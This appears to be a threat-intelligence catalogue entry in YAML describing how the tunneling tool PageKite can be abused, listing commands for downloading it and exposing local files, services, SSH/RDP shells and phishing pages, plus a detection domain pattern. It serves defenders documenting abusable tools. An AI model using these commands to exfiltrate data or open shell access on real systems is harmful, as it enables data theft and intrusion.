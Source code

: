 ```yaml
---
Name: PageKite
Description: PageKite is a fast, reliable localhost tunneling solution which is paid but allows a free version for 1 month. This can be abused by the threat actors as well as insiders to expose local apps, services over the internet as well as to download malicious binaries, host malware and to host phishing sites to target users.
Author: Kamran Saifullah
Created: 2024-10-14
Commands:

  - Command: curl -O https://pagekite.net/pk/pagekite.py
    Description: PageKite allows to download a python program which can be called directly from the URL and can be executed on the local machine.
    Usecase: Downloading and execution of pagekite python program.
    Category: install
    Privileges: User
    OperatingSystem: Windows, Mac, Linux

  - Command: pagekite.py <LOCAL PATH> <SUBDOMAIN>.pagekite.me
    Description: Exposing local file system over the internet for data exfiltration.
    Usecase: Hosting local file system and binding them to the PageKite domains for data exfiltration.
    Category: exfiltrate
    Privileges: User
    OperatingSystem: Windows, Mac, Linux

  - Command: pagekite.py <PORT> <SUBDOMAIN>.pagekite.me
    Description: Exposing local services over the internet for external access.
    Usecase: Hosting local services and binding them to the PageKite domains for external access.
    Category: access
    Privileges: User
    OperatingSystem: Windows, Mac, Linux

  - Command: pagekite.py <PORT> <SUBDOMAIN>.pagekite.me
    Description: Exposing local ssh/rdp over PageKite domains for shell-access.
    Usecase: Hosting local services i.e. SSH/RDP etc. for shell access.
    Category: shell-access
    Privileges: User
    OperatingSystem: Windows, Mac, Linux

  - Command: pagekite.py <PORT> <SUBDOMAIN>.pagekite.me
    Description: Hosting phishing pages locally and exposing them via PageKite subdomains to target users. 
    Usecase: Hosting phishing pages locally by threat actors and using the PageKite domains to target the users.
    Category: phishing
    Privileges: User
    OperatingSystem: Windows, Mac, Linux

  - Command: pagekite.py <LOCAL PATH> <SUBDOMAIN>.pagekite.me
    Description: Hosting malicious files/confidential files via a local path and exposing them over PageKite domains for download.
    Usecase: Hosting local files, malicious files, sensitive files and exposing them over PageKite domains for downloads.
    Category: download
    Privileges: User
    OperatingSystem: Windows, Mac, Linux

Full_Path:
  - Path: Downloaded version of PakeKite python program, which gets executed anywhere on the system.
Detection:
  - Domain: '*.pagekite.net'
Resources:
  - Link: https://pagekite.net/
Acknowledgement:
  - Person: Kamran Saifullah
    Handle: '@deFr0ggy'
---
```

